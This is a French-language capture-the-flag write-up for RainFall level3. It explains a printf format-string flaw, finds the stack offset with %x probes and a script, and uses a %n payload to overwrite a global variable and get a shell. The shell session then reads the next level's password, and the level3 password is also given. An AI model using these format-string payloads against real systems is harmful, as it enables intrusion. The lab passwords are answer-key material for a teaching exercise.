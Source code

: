 
# level3 :

pass : `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`

## Source :

```c
#include <stdio.h>
#include <stdint.h>

int	m = 0;  // 0x804988c

int		v() {  // 0x080484a4
	char str[520];  // ebp-0x208 | esp+0x10 / size : 0x208

	fgets(str, 512, stdin);  // 0x200
	printf(str);
	if (m == 64) {  // 0x40
		fwrite("Wait what?!\n", 1, 12, stdout);
		system("/bin/sh");
	}
	return m;
}

int		main(int ac, char **av, char **envp) {  // 0x0804851a
	return v();
}
```

## Recherche :

> On doit changer la valeur `m` à l'adresse `0x804988c` pour pouvoir réaliser notre exploit.

Ici `printf` est utilisé, et on va pouvoir l'utiliser pour faire ce que l'on veut.
`Printf` utlise des formats modifier `%` qui seront directement interprétés, n'étant pas protégé sur le binaire du level3.
On a donc :
	- `%s` pour afficher une chaine de caractère
	- `%x` pour afficher 4 octets en hexadécimal
	- `%n` pour l'écriture en mémoire

### Chercher l'offset manuellement

- [Printf vulns example](https://blog.skullsecurity.org/2015/defcon-quals-babyecho-format-string-vulns-in-gory-detail)

```sh
level3@RainFall:~$ ./level3 <<< '%x %x %x %x %x'
200 b7fd1ac0 b7ff37d0 25207825 78252078

level3@RainFall:~$ ./level3 <<< 'AAAABBBBCCCC%x %x %x %x %x'
AAAABBBBCCCC200 b7fd1ac0 b7ff37d0 41414141 42424242

level3@RainFall:~$ ./level3 <<< 'AAAABBBBCCCC%x %x %x %x %x %x'
AAAABBBBCCCC200 b7fd1ac0 b7ff37d0 41414141 42424242 43434343
```

```sh
level3@RainFall:~$ ./level3 <<< 'AAAA %4$x'
AAAA 41414141

level3@RainFall:~$ ./level3 <<< 'AAAA %4$s'
Segmentation fault (core dumped)
```

On peut lire sur notre propre string avec un offset de `4` !

### Trouver quand on aura notre offset avec un script

Pour déterminer l'offset où la chaine `str` sera mise en mémoire, on peut lancer cette commande :
`for((i=0; i<10; i++));do echo "Index $i" && python -c "print 'AAAA'+' %x'*$i" | ./level3; done`

qui nous donnera ce résultat :
```sh
Index 0
AAAA
Index 1
AAAA 200
Index 2
AAAA 200 b7fd1ac0
Index 3
AAAA 200 b7fd1ac0 b7ff37d0
Index 4
AAAA 200 b7fd1ac0 b7ff37d0 41414141
Index 5
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520
Index 6
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825
Index 7
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
Index 8
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520
Index 9
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520 25207825
```

ou avec un script shell :
```sh
kali@kali:~/rainfall$ cat ./script.sh
#!/bin/bash
for ((i=0;  i < 200; i++))
do
	echo "Index $i" && (python -c "print 'AAAA%$i\$x'" ) | $1 | grep -A5 -B5 4141 > temp.pap

	if test -s "temp.pap"; then
		cat temp.pap
		break
	fi
done
rm temp.pap
```
Qu'on peut exécuter :
```sh
kali@kali:~/rainfall$ ./script.sh ./level3
Index 0
Index 1
Index 2
Index 3
Index 4
AAAA41414141
```

On peut voir que l'on a un offset à `4`.

### Exploiter l'offset avec le format modifier `%n`

On peut donc simplifier par :
```sh
level3@RainFall:~$ echo "AAAA%4\$x" | ./level3
AAAA41414141
```
ou
```sh
level3@RainFall:~$ echo "ABCD%4\$x" | ./level3
ABCD44434241
```

Où l'on retrouve bien "ABCD" en little endian. Donc si l'on remplace "ABCD" par l'adresse de `m` on pourra changer sa valeur avec l'option `%n`.

```sh
level3@RainFall:~$ perl -e 'print "\x8c\x98\x04\x08%4\$x"' | ./level3 ; echo " ->$?"
�804988c ->0
```

Si on remplace `x` par `n`, au lieu d'afficher, on va donc écrire à l'adresse de mémoire donnée:
```sh
level3@RainFall:~$ perl -e 'print "\x8c\x98\x04\x08%4\$n"' | ./level3 ; echo " ->$?"
� ->4
```

> `%n` écrit en mémoire avec la taille de la chaine de caractère qui lui est donnée.

On voit que le code de retour n'est plus `0` mais `4`, car on a une chaîne d'une longeur de `4`.

On a donc tout ce qu'il nous faut pour écrire le script suivant :
- écrire à l'addresse `0x0804988c`
- l'offset pour y écrire est `4`
- la valeur que l'on veut mettre est `0x40`

`(python -c 'print "\x8c\x98\x04\x08"+"\x90"*(0x40-4)+"%4$n"'; cat) | ./level3`

## Exploit :

```sh
level3@RainFall:~$ (python -c 'print "\x8c\x98\x04\x08"+"\x90"*(0x40-4)+"%4$n"'; cat) | ./level3
�������������������������������������������������������������
Wait what?!
whoami
level4
cd ../level4
cat .pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

----

## Documentation :
* [Une simple Exploitation de vulnérabilité Format String](https://www.exploit-db.com/papers/23985)
